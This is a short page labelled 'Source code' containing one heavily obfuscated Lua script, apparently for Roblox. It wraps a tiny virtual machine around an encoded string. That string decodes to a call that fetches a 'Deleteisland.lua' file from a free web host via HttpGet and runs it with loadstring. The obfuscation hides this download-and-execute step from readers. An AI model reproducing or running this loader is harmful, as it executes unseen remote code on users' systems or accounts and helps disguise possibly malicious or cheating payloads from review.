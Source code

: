 local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function()return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...)local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30)if (v1(v30,2)==79) then local v82=0;while true do if (v82==0) then v19=v0(v3(v30,1,1));return "";end end else local v83=v2(v0(v30,16));if v19 then local v92=v5(v83,v19);v19=nil;return v92;else return v83;end end end);local function v20(v31,v32,v33)if v33 then local v84=(v31/((5 -3)^(v32-(1 + 0 + 0))))%((5 -3)^(((v33-(1 -0)) -(v32-(2 -1))) + 1)) ;return v84-(v84%(620 -(555 + 64))) ;else local v85=0 -(0 + 0) ;local v86;while true do if (v85==(931 -(857 + 74))) then v86=(570 -(367 + 201))^(v32-(928 -(214 + (1670 -(892 + 65))))) ;return (((v31%(v86 + v86))>=v86) and (4 -3)) or (117 -(32 + 85)) ;end end end end local function v21()local v34=v1(v16,v18,v18);v18=v18 + 1 ;return v34;end local function v22()local v35=0 -0 ;local v36;local v37;while true do if (v35==(1 -0)) then return (v37 * (469 -213)) + v36 ;end if (v35==((258 + 92) -(87 + 263))) then v36,v37=v1(v16,v18,v18 + (182 -(67 + (449 -336))) );v18=v18 + 2 + 0 ;v35=2 -1 ;end end end local function v23()local v38,v39,v40,v41=v1(v16,v18,v18 + (955 -((2270 -1468) + 150)) );v18=v18 + (10 -6) ;return (v41 * (30433252 -13656036)) + (v40 * (47703 + 10389 + 7444)) + (v39 * (1253 -(915 + 82))) + v38 ;end local function v24()local v42=0 -0 ;local v43;local v44;local v45;local v46;local v47;local v48;while true do if (v42==1) then v45=1188 -(1069 + 118) ;v46=(v20(v44,2 -1 ,43 -23 ) * ((1 + 1)^(113 -81))) + v43 ;v42=2;end if (v42==((1059 -(87 + 968)) -1)) then if (v47==(0 -0)) then if (v46==(0 + 0)) then return v48 * (0 + 0) ;else v47=886 -(261 + 624) ;v45=0;end elseif (v47==(3637 -1590)) then return ((v46==(791 -(368 + 423))) and (v48 * ((3 -2)/(18 -(10 + 8))))) or (v48 * NaN) ;end return v8(v48,v47-(3934 -2911) ) * (v45 + (v46/((444 -(416 + (114 -88)))^((150 + 15) -113)))) ;end if (v42==(0 + 0)) then v43=v23();v44=v23();v42=(2 -1) -0 ;end if (v42==((3328 -(447 + 966)) -(1789 + (339 -215)))) then v47=v20(v44,459 -(145 + 293) ,461 -(44 + 386) );v48=((v20(v44,1518 -(998 + (2305 -(1703 + 114))) )==1) and  -(1 + 0)) or (1 + 0) ;v42=(1476 -(376 + 325)) -(201 + 571) ;end end end local function v25(v49)local v50;if  not v49 then local v87=(376 -(85 + 291)) + 0 ;while true do if (v87==(0 -0)) then v49=v23();if (v49==((1265 -(243 + 1022)) -0)) then return "";end break;end end end v50=v3(v16,v18,(v18 + v49) -1 );v18=v18 + v49 ;local v51={};for v66=1, #v50 do v51[v66]=v2(v1(v3(v50,v66,v66)));end return v6(v51);end local v26=v23;local function v27(...)return {...},v12("#",...);end local function v28()local v52=0 -0 ;local v53;local v54;local v55;local v56;local v57;local v58;local v59;while true do if (v52==0) then local v91=0;while true do if (v91~=1) then else v52=1 -0 ;break;end if (v91==(0 + 0)) then v53=0 -0 ;v54=nil;v91=1;end end end if (v52==(1252 -(721 + 530))) then v55=nil;v56=nil;v52=1273 -(945 + 326) ;end if (v52~=(4 -2)) then else v57=nil;v58=nil;v52=3 + 0 ;end if (v52==3) then v59=nil;while true do if (v53==1) then local v97=0;while true do if (2~=v97) then else v53=2;break;end if (v97==1) then for v103=1,v58 do local v104=0;local v105;local v106;local v107;local v108;while true do if (v104==2) then while true do if (v105==(700 -(271 + 429))) then local v154=0;local v155;while true do if ((0 + 0)==v154) then v155=0;while true do if (v155==1) then v105=1501 -(1408 + 92) ;break;end if (v155==(1086 -(461 + 625))) then v106=1288 -(993 + 295) ;v107=nil;v155=1;end end break;end end end if (v105==(1 + 0)) then v108=nil;while true do if (v106==(1171 -(418 + 753))) then local v156=0 + 0 ;while true do if (v156==(0 + 0)) then local v164=0;local v165;while true do if (0==v164) then v165=0 + 0 ;while true do if (v165==(0 + 0)) then v107=v21();v108=nil;v165=1;end if (v165~=1) then else v156=1;break;end end break;end end end if ((530 -(406 + 123))~=v156) then else v106=1;break;end end end if (v106~=1) then else if (v107==(1770 -(1749 + 20))) then v108=v21()~=0 ;elseif (v107==2) then v108=v24();elseif (v107==3) then v108=v25();end v59[v103]=v108;break;end end break;end end break;end if (v104~=(0 + 0)) then else v105=1322 -(1249 + 73) ;v106=nil;v104=1;end if (v104==(1 + 0)) then local v146=0;while true do if (v146~=1) then else v104=1147 -(466 + 679) ;break;end if (v146~=(0 -0)) then else v107=nil;v108=nil;v146=1;end end end end end v57[3]=v21();v97=2;end if (v97~=0) then else v58=v23();v59={};v97=1;end end end if (v53==(0 -0)) then local v98=0;while true do if (v98~=(1901 -(106 + 1794))) then else v56={};v57={v54,v55,nil,v56};v98=2;end if (v98~=0) then else local v102=0 + 0 ;while true do if (v102==0) then v54={};v55={};v102=2 -1 ;end if (v102==(2 -1)) then v98=1;break;end end end if (v98~=(116 -(4 + 110))) then else v53=1;break;end end end if (v53==2) then local v99=0;local v100;while true do if (v99==0) then v100=584 -(57 + 527) ;while true do local v109=1427 -(41 + 1386) ;while true do if ((103 -(17 + 86))~=v109) then else if (0~=v100) then else local v153=0 + 0 ;while true do if (v153==1) then v100=1;break;end if (v153==0) then for v158=1 -0 ,v23() do local v159=0;local v160;local v161;while true do if (v159==(2 -1)) then while true do if (v160==(166 -(122 + 44))) then v161=v21();if (v20(v161,1 -0 ,1)==0) then local v166=0;local v167;local v168;local v169;local v170;local v171;while true do if (v166==(6 -4)) then v171=nil;while true do if (v167~=1) then else local v172=0;while true do if (v172==(0 + 0)) then v170=nil;v171=nil;v172=1 + 0 ;end if (v172~=1) then else v167=3 -1 ;break;end end end if (2==v167) then while true do if (v168~=3) then else if (v20(v170,68 -(30 + 35) ,3 + 0 )==1) then v171[1261 -(1043 + 214) ]=v59[v171[15 -11 ]];end v54[v158]=v171;break;end if ((1213 -(323 + 889))~=v168) then else local v174=0;local v175;while true do if (v174~=(0 -0)) then else v175=580 -(361 + 219) ;while true do if (v175==(320 -(53 + 267))) then v171={v22(),v22(),nil,nil};if (v169==(0 + 0)) then local v185=0 + 0 ;local v186;while true do if (v185==0) then v186=850 -(20 + 830) ;while true do if ((0 + 0)==v186) then v171[3]=v22();v171[4]=v22();break;end end break;end end elseif (v169==(127 -(116 + 10))) then v171[3]=v23();elseif (v169==2) then v171[1 + 2 ]=v23() -(2^16) ;elseif (v169==3) then local v191=738 -(542 + 196) ;local v192;local v193;while true do if (v191~=1) then else while true do if (v192~=(0 -0)) then else v193=0 + 0 ;while true do if (0~=v193) then else v171[2 + 1 ]=v23() -(2^(6 + 10)) ;v171[10 -6 ]=v22();break;end end break;end end break;end if (v191==(0 -0)) then v192=0;v193=nil;v191=1552 -(1126 + 425) ;end end end v175=406 -(118 + 287) ;end if (v175==(3 -2)) then v168=1123 -(118 + 1003) ;break;end end break;end end end if (v168==0) then local v176=0 -0 ;local v177;while true do if (v176==0) then v177=0;while true do if (v177~=(377 -(142 + 235))) then else local v182=0;while true do if (v182==(0 -0)) then v169=v20(v161,1 + 1 ,980 -(553 + 424) );v170=v20(v161,7 -3 ,6);v182=1 + 0 ;end if (v182==(1 + 0)) then v177=1;break;end end end if (v177==1) then v168=1 + 0 ;break;end end break;end end end if (v168==2) then local v178=0 + 0 ;local v179;while true do if ((0 + 0)~=v178) then else v179=0;while true do if (1==v179) then v168=3;break;end if (0==v179) then local v183=0;local v184;while true do if (v183==0) then v184=0 -0 ;while true do if (v184==(2 -1)) then v179=1;break;end if (0==v184) then if (v20(v170,1,2 -1 )==(1 + 0)) then v171[9 -7 ]=v59[v171[755 -(239 + 514) ]];end if (v20(v170,2,2)==(1 + 0)) then v171[3]=v59[v171[3]];end v184=1;end end break;end end end end break;end end end end break;end if (v167~=(1329 -(797 + 532))) then else v168=0 + 0 ;v169=nil;v167=1;end end break;end if (v166~=1) then else v169=nil;v170=nil;v166=2;end if (v166~=0) then else v167=0 + 0 ;v168=nil;v166=2 -1 ;end end end break;end end break;end if (v159==0) then v160=1202 -(373 + 829) ;v161=nil;v159=1;end end end for v162=1,v23() do v55[v162-(732 -(476 + 255)) ]=v28();end v153=1;end end end if (v100==1) then return v57;end break;end end end break;end end end end break;end end end local function v29(v60,v61,v62)local v63=v60[1];local v64=v60[2];local v65=v60[3];return function(...)local v68=v63;local v69=v64;local v70=v65;local v71=v27;local v72=1;local v73= -1;local v74={};local v75={...};local v76=v12("#",...) -1 ;local v77={};local v78={};for v88=0,v76 do if (v88>=v70) then v74[v88-v70 ]=v75[v88 + 1 ];else v78[v88]=v75[v88 + 1 ];end end local v79=(v76-v70) + 1 ;local v80;local v81;while true do v80=v68[v72];v81=v80[1];if (v81<=6) then if (v81<=2) then if (v81<=0) then if ((v80[3]=="_ENV") or (v80[3]=="getfenv")) then v78[v80[2]]=v62;else v78[v80[2]]=v62[v80[3]];end elseif (v81==1) then local v113=v80[2];local v114=v78[v80[3]];v78[v113 + 1 ]=v114;v78[v113]=v114[v80[4]];else local v118=0;local v119;while true do if (v118==0) then v119=v80[2];v78[v119]=v78[v119](v13(v78,v119 + 1 ,v73));break;end end end elseif (v81<=4) then if (v81==3) then local v120=v80[2];local v121,v122=v71(v78[v120](v13(v78,v120 + 1 ,v80[3])));v73=(v122 + v120) -1 ;local v123=0;for v139=v120,v73 do local v140=0;while true do if (v140==0) then v123=v123 + 1 ;v78[v139]=v121[v123];break;end end end else local v124=v80[2];local v125,v126=v71(v78[v124](v13(v78,v124 + 1 ,v80[3])));v73=(v126 + v124) -1 ;local v127=0;for v141=v124,v73 do local v142=0;while true do if (v142==0) then v127=v127 + 1 ;v78[v141]=v125[v127];break;end end end end elseif (v81>5) then if ((v80[3]=="_ENV") or (v80[3]=="getfenv")) then v78[v80[2]]=v62;else v78[v80[2]]=v62[v80[3]];end else v78[v80[2]]();end elseif (v81<=9) then if (v81<=7) then do return;end elseif (v81==8) then v78[v80[2]]=v80[3];else local v130=v80[2];v78[v130]=v78[v130](v13(v78,v130 + 1 ,v73));end elseif (v81<=11) then if (v81==10) then do return;end else v78[v80[2]]();end elseif (v81>12) then v78[v80[2]]=v80[3];else local v134=v80[2];local v135=v78[v80[3]];v78[v134 + 1 ]=v135;v78[v134]=v135[v80[4]];end v72=v72 + 1 ;end end;end return v29(v28(),{},v17)(...);end v15("LOL!043O00030A3O006C6F6164737472696E6703043O0067616D6503073O00482O747047657403323O00682O7470733A2O2F6761726E2O6F672E3O30776562686F7374612O702E636F6D2F44656C65746569736C616E642E6C756100083O00124O00013O00122O000100023O00200C00010001000300120D000300044O0004000100034O00025O00022O00053O000100012O000A3O00017O00",v9(),...);
